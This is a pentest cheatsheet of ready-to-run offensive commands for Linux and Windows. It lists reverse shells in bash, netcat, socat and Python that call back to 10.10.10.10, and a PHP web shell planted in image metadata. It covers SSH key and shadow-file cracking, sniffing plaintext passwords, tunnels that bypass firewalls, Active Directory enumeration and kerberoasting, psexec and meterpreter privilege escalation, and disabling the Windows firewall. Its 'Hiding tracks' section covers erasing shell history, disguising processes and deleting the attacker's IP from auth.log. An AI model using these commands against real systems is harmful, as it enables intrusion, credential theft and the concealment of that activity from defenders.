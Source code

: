 ```yaml
---
layout: cheatsheet
title: Pentest Cheatsheet
icon: fa-list
order: 4
---
```


## PENTEST CHEATSHEET
### Linux

Find user owned files
~~~
find / -user $(whoami) 2>/dev/null | egrep -v '(/proc)'
~~~

Find writeable files
~~~
find / -writeable 2>/dev/null | egrep -v '(/proc|/run|/dev)'
~~~

Find readable files with following extensions
~~~
find / -readable 2>/dev/null | egrep '(\.key$|\.pub$|\.bak$|\.crt$|\.ca$|^id_rsa)'
~~~

Bash reverse shell
~~~
bash -i >& /dev/tcp/10.10.10.10/444 0>&1
~~~

Netcat reverse shell
~~~
nc -e /bin/bash 10.10.10.10 444
nc -e /bin.sh 10.10.10.10 444
~~~

Socat reverse shell
~~~
socat file:`tty`,raw,echo=0 tcp-listen:444 #listener
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:444 #payload
~~~

Python reverse shell
~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
~~~

Upgrade shell with Python
~~~
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo
F+G+ENTER
export TERM=xterm
~~~

Fix terminal
~~~
stty -a
stty cols rows
~~~

Find files that aren't installed by the system
~~~
for i in $(ls $(pwd)/*); do dpkg --search $i 1>/dev/null; done
~~~

Inject PHP into image
~~~
exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
exiftool “-comment<=back.php” back.png
~~~

Cracking SSH
~~~
ssh2john id_rsa > id_rsa.hash
john --wordlist=wordlist.txt id_rsa.hash
~~~

Cracking /etc/shadow
~~~
unshadow passwd.hashes shadow.hashes > unshadowed_passwords.txt
john --wordlist=wordlist.txt passwords.txt
~~~

WFUZZ
~~~
wfuzz  -w /usr/share/wordlists/dirb/common.txt --hc 404,500 -u http://10.10.10.168:8080/
~~~

### Hiding tracks

Hiding bash history
~~~
unset HISTFILE
~~~

Commit 'suicide' when exiting shell
~~~
kill -9 $$
~~~

Hide commands
~~~
exec -a syslogd <command here>
~~~

Hide from /var/log/utmp, `w`, `who`, `.profile`, `.bash_profile`, `known_hosts`.
~~~
ssh -o UserKnownHostsFile=/dev/null -T user@host.org "bash -i"
~~~

SSH tunnel out
~~~
# bypass local firewalls or IP filtering
# connect to localhost:31337 and get connected to 1.2.4.3:80 appearing as user@host.org
ssh -g -L31337:1.2.3.4:80 user@host.org
~~~

SSH tunnel in
~~~
# access private machine
# connect to host.org:31338 get forwarded to 10.10.10.10:80 via localhost
ssh -o ExitOnForwardFailure=yes -g -R31338:10.10.10.10:80 user@host.org
~~~

SSH socks4/5 IN
~~~
# reverse dynamic forwarding
# configure host.org:1080 as SOCKS4/5 proxy and connect to any internal address/port where the system SSH was executed from has access to
ssh -R 1080 user@host.org
~~~

Monitor new TCP connections
~~~
tcpdump -n "tcp[tcpflags] == tcp-syn"
~~~

Other TCPDUMP
~~~
tcpdump -i eth0 'port 80'
tcpdump -i eth0 [udp | proto 17]
tcpdump -vv -x -X -s 1500 -i eth0 'port 80'
tcpdump -i eth0 host 10.10.10.10
tcpdump -i eth0 dst 10.10.10.10
tcpdump -i eth0 -n icmp
tcpdump dst port 123
tcpdump port http or port ftp or port smtp or port imap or port pop3 or port telnet -l -A | egrep -i -B5 'pass=|pwd=|log=|login=|user=|username=|pw=|passw=|passwd=|password=|pass:|user:|username:|password:|login:|pass |user '
~~~

Clear logfile
~~~
cd /dev/shm
grep -v '10\.10\.10\.10' /var/log/auth.log >a.log; cat a.log >/var/log/auth.log; rm -f a.log
~~~

### Windows

SMB
~~~
smbclient -L //10.10.10.10 #list shares
smbclient -U ''
smbmap -H 10.10.10.10 #list shares
smbmap -R [share] -H 10.10.10.10 #list contents of share
smbmap -d domain -u user -p password -H 10.10.10.10 #login with user
crackmapexec smb 10.10.10.10 --shares -u '' -p ''
~~~

GPP groups.xml
~~~
gpp-decrypt hash
~~~

Active Directory: impacket
~~~
GetADUsers.py -all domain/user -dc-ip 10.10.10.10
GetUserSPN.py -request[-user] [user] -dc-ip 10.10.10.10 domain/user #kerberoast
~~~

Active Directory
~~~
rpcclient 10.10.10.10
rpcclient 10.10.10.10 -U ''
enumdomusers
~~~

Kerberos
~~~
kerbrute userenum --dc 10.10.10.10 -d domain -o outfile.out users.lst
~~~

Create session with credentials for remote access only
~~~
runas /netonly /user:domain\username cmd
~~~

Shell via SMB: psexec.py
~~~
psexec.py domain/user@10.10.10.10
~~~

Metasploit windows meterpreter session
~~~
execute -f cmd.exe -c -H
shell
netsh firewall show opmode
netsh advfirewall set allprofiles state off
getsystem
~~~